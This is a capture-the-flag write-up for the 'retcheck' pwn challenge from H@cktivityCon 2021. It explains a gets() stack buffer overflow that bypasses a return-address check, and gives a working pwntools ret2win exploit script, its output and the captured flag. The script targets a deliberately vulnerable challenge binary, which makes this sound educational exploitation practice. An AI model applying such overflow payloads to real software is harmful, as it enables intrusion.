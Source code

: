 # H@cktivityCon 2021 CTF

## retcheck


> Stack canaries are overrated. 
> 
> 277
> 
> [`retcheck`](retcheck)
>
> author: @M_alpha#3534

Tags: _pwn_ _bof_ _rop_ _x86-64_ _ret2win_


## Summary

Basic ret2win, one function removed.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No PIE/Canary, easy BOF/ROP.
    

### Decompile with Ghidra

```c
void vuln(void)
{
  size_t sVar1;
  long in_stack_00000000;
  char local_198 [400];
  
  RETADDR = in_stack_00000000;
  puts("retcheck enabled !!");
  gets(local_198);
  sVar1 = strcspn(local_198,"\r\n");
  local_198[sVar1] = '\0';
  if (in_stack_00000000 != RETADDR) {
    abort();
  }
  return;
}
```

`gets` is the vulnerability, and easy to exploit since no PIE or canary.  However, there is a check that the return address (on stack) was not overwritten; kinda necessary to start a ROP chain.  No worries, we'll overwrite the `main` return address instead:

```
0x00007fffffffe350│+0x0190: 0x00007fffffffe360  →  0x0000000000000000	 ← $rbp
0x00007fffffffe358│+0x0198: 0x0000000000401465  →  <main+18> mov eax, 0x0
0x00007fffffffe360│+0x01a0: 0x0000000000000000
0x00007fffffffe368│+0x01a8: 0x00007ffff7de70b3  →  <__libc_start_main+243> mov edi, eax
```

From GDB/GEF (above) you can see the return address back to main just below the preserved base pointer.  But then down stack two more lines you can see the return address for the `main` function.

So, just send `0x198` (see `local_198` above) of garbage followed by `0x401465` (the expected return back to main address) a `0x0`, then the address of the `win` function (not shown, just decompile yourself).

> The return address is a poor choice as a canary, especially with PIE disable since the return address is deterministic with static analysis.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./retcheck')

if args.REMOTE:
    p = remote('challenge.ctf.games', 31463)
else:
    p = process(binary.path)

payload  = b''
payload += 0x198 * b'A'
payload += p64(0x401465)
payload += p64(0)
payload += p64(binary.sym.win)

p.sendlineafter(b'\n',payload)
p.stream()
```

Nothing else to explain.

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/hacktivityctf2021/retcheck/retcheck'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to challenge.ctf.games on port 31463: Done
flag{a73dc20c1cd1f918ae7b591e8625e349}
```
